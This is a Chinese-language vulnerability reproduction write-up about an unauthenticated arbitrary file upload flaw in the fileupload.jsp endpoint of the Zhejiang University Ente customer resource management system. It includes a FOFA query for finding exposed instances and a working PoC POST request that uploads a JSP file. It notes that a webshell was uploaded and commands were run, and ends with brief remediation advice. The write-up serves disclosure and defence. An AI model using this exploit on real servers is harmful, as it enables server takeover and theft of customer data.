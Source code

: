 
# 浙大恩特客户资源管理系统任意文件上传漏洞复现

### 0x01 产品简介

     浙大恩特[客户资源管理](https://so.csdn.net/so/search?q=%E5%AE%A2%E6%88%B7%E8%B5%84%E6%BA%90%E7%AE%A1%E7%90%86&spm=1001.2101.3001.7020)系统是一款针对企业客户资源管理的软件产品。该系统旨在帮助企业高效地管理和利用客户资源，提升销售和市场营销的效果。

### 0x02 漏洞概述

  浙大恩特客户资源管理系统中fileupload.jsp接口处存在[文件上传漏洞](https://so.csdn.net/so/search?q=%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E&spm=1001.2101.3001.7020)，未经身份认证的攻击者可以上传任意后门文件，最终可导致服务器失陷。

### 0x03 复现环境

FOFA：app="浙大恩特客户资源管理系统"

![](assets/1699929273-bcd76752e4891c6c2630e6ff06382bb5.png)

### 0x04 漏洞复现 

PoC

```cobol
POST /entsoft_en/entereditor/jsp/fileupload.jsp?filename=1.jsp HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Content-Type: application/x-www-form-urlencoded
Connection: close
Accept-Encoding: gzip, deflate

123
```

![](assets/1699929273-b71ce3998d997a1ea55c71b60aa4ebda.png)

回显了上传路径 

验证

![](assets/1699929273-32c25ae7394720814b1b7bf8656da49c.png)

上传马子

![](assets/1699929273-b2d0a0820efeb4b33e85ace962673bc6.png)

命令执行 

### ![](assets/1699929273-588167ef90e58a3abfadae7a8a3d60e9.png) 0x05 修复建议 

关闭互联网暴露面或设置接口访问权限

 升级至安全版本
